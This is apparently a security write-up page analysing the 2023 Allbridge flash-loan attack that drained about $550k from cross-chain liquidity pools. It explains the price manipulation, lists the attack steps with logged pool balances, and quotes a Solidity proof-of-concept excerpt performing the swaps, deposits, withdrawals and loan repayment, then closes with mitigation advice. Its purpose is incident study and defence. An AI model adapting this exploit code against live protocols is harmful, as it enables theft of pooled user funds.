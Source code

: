 # Allbridge

![Swag Image](https://static.vecteezy.com/system/resources/thumbnails/009/665/324/small/cute-kitty-cat-on-train-cartoon-element-free-png.png)


## What's Allbridge?
Allbridge is a leading cross-chain provider, specializing in integrating EVM with non-EVM blockchains.
Their mission is to make the blockchain world borderless by providing an 
infrastructure to freely move assets between various networks


## Amount stolen
**$550k USD**

2-04-2023

## Vulnerability
Flashloan attack


## Analysis
The root cause appears to be the manipulation of the pool's swap price.
The attacker was able to act as the liquidity provider and swapper resulting in the user manipulating the price and draining funds from the pool

Each Allbridge Core liquidity pool is essentially a swap contract, 
similar to the existing decentralized exchanges like Uniswap or Curve Finance.
The difference between Allbrige's pools is the fact that liquidity is provided in just one token (unlike the regular DEXes, which require two tokens).

When liquidity is deposited, it matches the deposited amount by minting the same amount of vUSD tokens*. This token is used as an intermediary to transfer value from one pool to another (either within the same blockchain or between two different blockchains).

*vUSD token is an abstraction used within the Allbridge Core ecosystem. Technically it is not a token, as it never gets out to user balances as an actual token. However, it is easier to explain the concept of how Allbridge Core works using this “token” analogy.

To illustrate, consider bridging BUSD from the BNB Chain to USDT on Tron. The process involves swapping BUSD for vUSD, transferring the vUSD value to Tron through a cross-chain messaging protocol, and ultimately swapping vUSD for USDT on Tron. Notably, this directional swap results in a decrease in the internal price of BUSD to vUSD, while the price of USDT to vUSD increases. This dynamic encourages other participants to bridge assets in the opposite direction, seeking profitable opportunities within the Allbridge Core ecosystem.


# Proof of Concept (PoC) 

![Swag Image](../images/allbridge.png)

we initiate a flashloan of $7.5M BUSD using `pancakeSwap.swap(0, 7_500_000e18, address(this), "Test");`.


During the flashloan, the following steps are executed:

1. **Swap for USDT:**
   - Swap 2 million BUSD for $2M USDT.

2. **Deposit into BUSD Pool:**
   - Deposit $5M BUSD into the BUSD pool using the `deposit` function.

3. **Swap BUSD for USDT:**
   - Swap 500k BUSD for USDT.

4. **Deposit into USDT Pool:**
   - Deposit $2M USDT into the USDT pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate: 5322629245 5306461333 1`

5. **Bridge Swap:**
   - Use the bridge to swap 500k USDT for 500k BUSD, resulting in a high dividend for the previous liquidity deposit.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 4831042788 5799131323 1`


7. **Withdraw from BUSD Pool:**
   - Withdraw $5M BUSD from the BUSD pool.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 43730 968132265 22138`


8. **Bridge Swap for Profit:**
   - Use the bridge to swap 40k BUSD for 790k USDT, exploiting the artificial pool imbalance.
  
`BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate: 39983730 178738726 4`

10. **Withdraw from USDT Pool:**
   - Withdraw $2M USDT from the USDT pool.

11. **Swap USDT for BUSD:**
   - Swap all USDT for BUSD.

11. **Repay Flashloan:**
    - Repay the flashloan using the repaid funds.

12. **Transfer Funds:**
    - Transfer the remaining funds to the attacker's account.
   
`Attacker BUSD balance after exploit: 549889.574365192879687841`


This sequence of actions exploits the liquidity pools, taking advantage of imbalances to maximize gains and navigate the cross-chain swaps.


```solidity
      Swap.swap(address(BUSD), address(USDT), 2_003_300 * 1e18, 1, address(this), block.timestamp);
        BUSDPool.deposit(5_000_000 * 1e18); // deposit BUSD to BUSDPool
        Swap.swap(address(BUSD), address(USDT), 496_700 * 1e18, 1, address(this), block.timestamp);
        USDTPool.deposit(2_000_000 * 1e18); // deposit USDT to USDTPool

        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, BUSD/vUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.tokenBalance() / BUSDPool.vUsdBalance()
        );
        bytes32 token = bytes32(uint256(uint160(address(USDT))));
        bytes32 receiveToken = bytes32(uint256(uint160(address(BUSD))));
        BridgeSwap.swap(USDT.balanceOf(address(this)), token, receiveToken, address(this)); // BridgeSwap USDT to BUSD
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BUSDPool.withdraw(4_830_262_616); // Amplify the imbalance of vUSDbalance and tokenbalance in BUSDPool
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );

        BridgeSwap.swap(40_000 * 1e18, receiveToken, token, address(this)); // BridgeSwap BUSD to USDT
        console.log(
            "BUSDPool tokenBalance, BUSDPool vUsdBalance, vUSD/BUSD rate:",
            BUSDPool.tokenBalance(),
            BUSDPool.vUsdBalance(),
            BUSDPool.vUsdBalance() / BUSDPool.tokenBalance()
        );
        USDTPool.withdraw(1_993_728_530);

        Swap.swap(address(USDT), address(BUSD), USDT.balanceOf(address(this)), 1, address(this), block.timestamp);
        BUSD.transfer(address(Pair), 7_522_500 * 1e18);
```

## One asset per chain

To prevent the possibility of flash loan attacks, they deployed a single liquidity pool per blockchain. Therefore, it would not be possible to execute an exploit in a single transaction. 

## Mitigation and Best Practices:

Protocols need to add security layers,
using at least two oracles to verify the price. An oracle serves as a means to obtain Real-World Data, enabling smart contracts to interact with external information. This approach would have detected anomalies, such as the mismatch where $40,000 BUSD should not have been able to purchase 700,000 USDT tokens, preventing potential vulnerabilities or exploits.


## Conclusion 

In summary, the attacker is executing a series of actions that involve swapping, depositing, and withdrawing across various pools. These actions create imbalances within the pools, leading to this vulnerability.

**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/Allbridge_exp2.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
